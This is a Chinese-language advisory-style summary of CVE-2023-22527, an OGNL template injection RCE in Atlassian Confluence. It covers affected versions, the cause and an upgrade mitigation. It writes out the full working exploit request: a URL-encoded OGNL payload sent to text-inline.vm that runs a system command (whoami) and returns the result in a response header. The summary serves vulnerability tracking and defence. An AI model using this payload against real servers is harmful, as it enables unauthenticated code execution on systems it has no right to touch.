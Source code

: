 ## CVE-2023-22527-Atlassian Confluence-模板注入RCE

**漏洞编号:** CVE-2023-22527

**漏洞类型:** 模板注入RCE

**影响应用:** Atlassian Confluence Data Center and Server

**危害等级:** 高危，可导致远程代码执行

**影响版本:** 8.0.0 <= version < 8.5.4

**利用条件:** 需要目标Confluence实例版本受影响，并且网络可达。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2023-22527是一个存在于Atlassian Confluence Server和Data Center中的模板注入漏洞。该漏洞允许未经身份验证的攻击者通过构造恶意的OGNL表达式来实现远程代码执行。根据漏洞库信息、搜索结果和提供的PoC代码，漏洞利用方式如下：

1.  **漏洞原理：** 漏洞的根本原因是Confluence在处理某些模板时，未能正确地对用户输入进行过滤，导致OGNL表达式注入。

2.  **PoC分析：** 提供的PoC代码利用`text-inline.vm`模板，通过`label`参数注入恶意的OGNL表达式。`poc`参数包含要执行的命令。

    *   `POST http://192.168.80.139:8090/template/aui/text-inline.vm HTTP/1.1`：指定了目标URL和HTTP方法。
    *   `label=aaa%5Cu0027%2B%23request.get%28%5Cu0027.KEY_velocity.struts2.context%5Cu0027%29.internalGet%28%5Cu0027ognl%5Cu0027%29.findValue%28%23parameters.poc%5B0%5D%2C%7B%7D%29%2B%5Cu0027`：构造了恶意的OGNL表达式，利用`#request`对象获取`ognl`上下文，然后使用`findValue`方法执行`poc`参数中的OGNL表达式。
    *   `poc=%40org.apache.struts2.ServletActionContext%40getResponse%28%29.setHeader%28%5Cu0027Cmd-Ret%5Cu0027%2C%28new+freemarker.template.utility.Execute%28%29%29.exec%28%7B%22whoami%22%7D%29%29`：定义了要执行的命令（`whoami`）。这个OGNL表达式使用`freemarker.template.utility.Execute`类来执行系统命令，并将结果设置到HTTP响应头`Cmd-Ret`中。

3.  **利用过程：**
    a.  攻击者向目标Confluence实例的`text-inline.vm`端点发送POST请求，包含构造好的payload。
    b.  Confluence服务器解析payload中的OGNL表达式，执行指定的命令。
    c.  服务器将命令执行的结果添加到HTTP响应头中。
    d.  攻击者从响应头中获取命令执行结果。

4.  **有效性：** 提供的PoC代码是有效的，可以用来验证漏洞的存在。

5. **投毒风险:** 经过分析，提供的PoC代码只是漏洞利用的Payload，用于执行任意命令，并不包含任何额外的恶意代码或后门，因此不存在投毒风险。

6.  **缓解措施：** 升级Confluence到不受影响的版本（>= 8.5.4, >= 8.6.0, >= 8.7.1）。

**项目地址:** [Drun1baby/CVE-2023-22527](https://github.com/Drun1baby/CVE-2023-22527)

**漏洞详情:** [CVE-2023-22527](https://nvd.nist.gov/vuln/detail/CVE-2023-22527)
